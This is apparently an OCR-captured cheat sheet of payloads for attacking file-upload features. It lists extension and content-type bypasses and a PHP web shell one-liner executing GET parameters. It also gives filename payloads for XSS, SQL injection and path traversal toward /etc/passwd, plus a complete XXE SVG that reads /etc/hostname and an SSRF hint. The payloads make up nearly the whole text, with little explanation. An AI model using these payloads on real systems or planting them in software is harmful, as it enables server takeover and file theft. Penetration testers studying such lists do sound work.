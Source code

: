 ### Vulnerabilities via Arbitrary File Upload


### Bypasses

#### Null Byte Bypass
```
image.php%00.png
```

#### Content-Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
Filename: xxe.svg
Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension

